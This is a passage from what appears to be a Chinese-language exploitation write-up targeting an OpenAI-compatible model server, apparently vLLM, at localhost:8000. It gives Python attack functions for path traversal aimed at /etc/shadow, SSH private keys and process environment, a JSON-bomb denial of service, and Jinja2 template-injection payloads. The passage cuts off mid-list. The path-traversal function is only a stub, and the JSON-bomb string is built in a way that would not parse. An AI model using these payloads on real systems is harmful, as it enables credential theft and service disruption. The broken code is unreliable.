 ### 3.2 路径遍历攻击
```python
def exploit_path_traversal():
    """利用路径遍历漏洞"""
    # 如果可以控制文件路径参数
    malicious_paths = [
        "../../../etc/passwd",
        "../../../etc/shadow", 
        "../../../proc/self/environ",
        "../../../root/.ssh/id_rsa",
        "../../vllm/config.py",
        "../../../var/log/auth.log"
    ]
    
    for path in malicious_paths:
        try:
            # 这需要找到能控制文件路径的端点
            # 例如批处理文件上传功能
            print(f"Attempting to read: {path}")
            # 实际利用需要找到具体的API端点
        except Exception as e:
            print(f"Error with {path}: {e}")
```

### 3.3 JSON炸弹攻击
```python
def exploit_json_bomb():
    """利用JSON解析漏洞进行DoS攻击"""
    url = "http://localhost:8000/v1/chat/completions"
    
    # 创建嵌套很深的JSON结构
    json_bomb = '{"a":' * 10000 + '1' + '}' * 10000
    
    # 或者创建重复的大型数组
    large_array = '{"tools": [' + '{"name": "func", "description": "' + 'A' * 100000 + '"},' * 1000 + ']}'
    
    payload = {
        "model": "gpt-3.5-turbo",
        "messages": [{"role": "user", "content": "test"}],
        "tools": json.loads(large_array)["tools"]
    }
    
    try:
        response = requests.post(url, json=payload)
        print(f"Response: {response.status_code}")
    except Exception as e:
        print(f"Error: {e}")
```

### 3.4 模板注入攻击
```python
def exploit_template_injection():
    """利用Jinja2模板注入漏洞"""
    url = "http://localhost:8000/v1/chat/completions"
    
    # 尝试各种模板注入负载
    template_payloads = [
        "{{ config }}",
        "{{ self.__init__.__globals__ }}",
        "{{ ''.__class__.__mro__[1].__subclasses__() }}",
        "{{ request.environ }}",
        "{% for item in config.items() %}{{ item }}{% endfor %}",
```